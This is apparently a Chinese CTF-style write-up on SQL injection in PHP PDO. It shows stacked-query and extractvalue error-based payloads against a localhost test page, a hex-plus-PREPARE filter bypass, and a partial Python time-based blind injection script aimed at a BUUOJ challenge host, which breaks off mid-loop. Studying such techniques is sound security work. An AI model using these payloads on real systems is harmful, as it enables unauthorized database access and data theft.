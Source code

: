 正常请求 http://127.0.0.1/pdo/5.php?id=1\&field=username\
结果如下：\
array(2) { \["id"]=> string(1) "1" \["username"]=> string(5) "admin" }

但是field参数可控，可以执行多条语句\
http://127.0.0.1/pdo/5.php?id=1\&field=username from users;select username,password\
结果如下：\
array(2) { \["id"]=> string(1) "1" \["username"]=> string(5) "admin" }\
array(2) { \["id"]=> string(1) "4" \["username"]=> string(5) "test4" }

当设置`$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);`时，也可以达到报错注入效果\
`http://127.0.0.1/pdo/5.php?id=1&field=username from users where (1 and extractvalue(1,concat(0x7e,(select(database())),0x7e)));%23`\
结果：\
`Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~user~' in......line 20`

非模拟预处理时，同样的field字段可控，这时多语句不可执行，但是当设置`$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);`时，也可进行报错注入\
`http://127.0.0.1/pdo/5.php?id=1&field=username from users where (1 and extractvalue(1,concat(0x7e,(select(version())),0x7e)));%23`\
结果：\
`Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~5.7.26~' in......line 20`

### wp

正常请求\


![](https://i.loli.net/2020/08/04/3IAEmOK29kHBgl6.png)

在username处加上单引号就会报错，但是加上 `';` 就返回正常\


![](https://i.loli.net/2020/08/04/r7JkxKuEoYhmsSi.png)

由于过滤了`select,if,sleep,substr`等大多数注入常见的单词，但是注入又不得不使用其中的某些单词。那么在这里我们就可以用`16进制+mysql预处理`来绕过。

![](https://i.loli.net/2020/08/04/Za8BsKbEFUNeHRc.png)

脚本跑不出来

```python
import requests
import json
import time

def main():

    url = 'http://b4dda812-2027-44c6-a044-e15bb77bf6d4.node3.buuoj.cn/index.php?r=Login/Index'

    payloads = "tesft';SET @a=0x{0};PREPARE smtm_test FROM @a;EXECUTE smtm_test;DEALLOCATE PREPARE smtm_test;"
    flag = ''
    for i in range(1,30):
        # SELECT IF(ASCII(SUBSTR((SELECT flag FROM flag),1,1))=103,SLEEP(3),1)
        
        payload = "SELECT IF(ASCII(SUBSTR((SELECT flag FROM flag),{0},1))={1},SLEEP(3),1)"
        print(i)
        for j in range(102,104):

            datas = {'username':payloads.format(str_to_hex(payload.format(i,j))),'password':'test'}
            # print(datas)
            data = json.dumps(datas)
            headers = {"Content-Type":"application/json"}
            
            try:
```